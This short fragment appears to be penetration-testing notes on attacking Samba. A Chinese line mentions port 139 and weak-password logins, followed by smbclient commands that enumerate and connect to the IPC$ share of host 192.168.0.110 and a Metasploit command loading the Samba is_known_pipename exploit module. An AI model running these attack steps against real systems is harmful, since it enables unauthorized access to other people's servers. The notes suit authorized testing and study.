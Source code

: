 	端口一般139，弱口令连接
	>smbclient -L 192.168.0.110
	>smbclient '\\192.168.0.110\IPC$'
	>use exploit/linux/samba/is_known_pipenamea
